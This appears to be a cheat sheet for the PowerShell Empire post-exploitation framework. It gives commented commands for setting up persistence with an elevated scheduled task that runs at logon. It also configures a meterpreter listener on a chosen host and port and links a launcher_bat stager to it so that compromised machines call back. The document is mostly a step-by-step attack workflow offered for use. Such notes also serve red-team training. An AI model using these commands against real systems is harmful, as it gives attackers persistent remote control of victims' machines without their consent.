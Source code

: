 *AGENT*: Use a particular module
```powershell
usemodule persistence/elevated/schtasks #the usemodule command takes a single parameter: the particular module desired to be used; this allows the user to begin using a module to establish peristence; this particular command uses the persistence/elevated/schtasks module
```

*AGENT*: Change Logon Option
```powershell
set OnLogon True #this command like other setters takes in two parameters: the particular option and then the new value; in this case, we are enabling the script to execute upon logon
```

*AGENT*: Set Listener for Agent
```powershell
set Listener Win7 #this command like other setters takes in two parameters: the particular option and then the new value; in this case, we are changing the listener for this particular agent
```
#
## **Procedures**
*Setup a Listener and Stager*
1. Need to setup listeners
    - list all the listeners
```powershell
listeners #lists all the listeners

back #if you want to go back
```
2. Pick and Use a listener
```powershell
uselistener meterpreter #uses the meterpreter listener; if you want to use a different listener, then change meterpreter to whatever you wish

info #use info if you want information about your listener
```
 
3. Set a your listener parameters
```powershell
set Name 4nrchy # sets the name of your listener to whatever you want, just change the 4nrchy to your desired name
set Host http://192.168.6.1 # sets the host; change http://192.168.6.1 to whatever host you want
set Port 4321 # sets the port that your listener will reside in; change 4321 to your desired port
```

4. Execute the listener
```powershell
execute #execute the listener; stager starts receiving connections
```

5. Setup a stager
```powershell
usestager windows/launcher_bat #uses a windows/launcher_bat stager; change windows/macro to whatever you desire
```
6. Set a Listener
```powershell
set Listener 4nrchy #links stager with listener
```
